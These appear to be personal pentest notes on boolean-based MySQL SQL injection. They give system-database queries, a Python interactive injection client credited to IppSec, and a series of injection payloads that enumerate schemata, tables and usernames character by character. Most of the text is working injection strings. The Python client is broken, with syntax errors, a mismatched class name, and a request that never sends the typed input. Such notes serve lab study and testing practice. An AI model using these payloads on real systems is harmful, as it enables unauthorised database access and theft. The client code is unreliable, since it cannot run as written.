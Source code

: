 Location of DB files 	
```sql
SELECT @@datadir;
```

Default/System Databases
```sql
information_schema (>= mysql 5.0)
mysql
```

#### IppSec's Automating Boolean SQL Injection and Evading Filters

SQLi client
```python
import cmd
import requests

# IppSec's SQL Injection client
# The benefits over BurpSuite being customisation of bad characters to URL encode
# Source: https://www.youtube.com/watch?v=mF8Q1FhnU70

# Use cmd to create a terminal
class CMD(cmd.Cmd):
        def __init__(self):
                cmd.Cmd.__init__(self):
                self.prompt = "sql> "

        def default(self, line):
                line = line.replace(" ", "%20")
                r = requests.get(f"http://127.0.0.1:5000/path")
                print.(r.text)

cmd = Cmd()
cmd.cmdloop()
```

Boolean injection 
```sql
' or (select 1) like 1-- -
```
False `{"result":0}` and True `{"result":1}` 
```sql
-- _ is a bad character; we also possibly cannot cast _ to hex
' or (select schema_name from information_schema.schemata limit 1) like 1-- -
```

Enumerate the users column
```sql
' or (select 1 from users limit 1) like 1-- -
```
Validate with
```sql
' or (select 1 from users limit 1) like 2-- -
```
And
```sql
' or (select 1 from AAAAAARGH limit 1) like 2-- -
```
We `select 1` to guess one character at a time. Then fuzz one character at a time with [[FFUF-Cheatsheet]], [[WFUZZ]] and then the next column with `offset`
```sql
' or (select usernames from users limit 1 offset 0) like 'ippsec'-- -
```
Next we need to use `substring`. Beware confusing where it `substring()` starts, because `limit` starts with 0, but `substring()` start with 1. 
```sql
--(select substring(usernames,OFFSET,NUMBER_OF_CHARACTERS)
```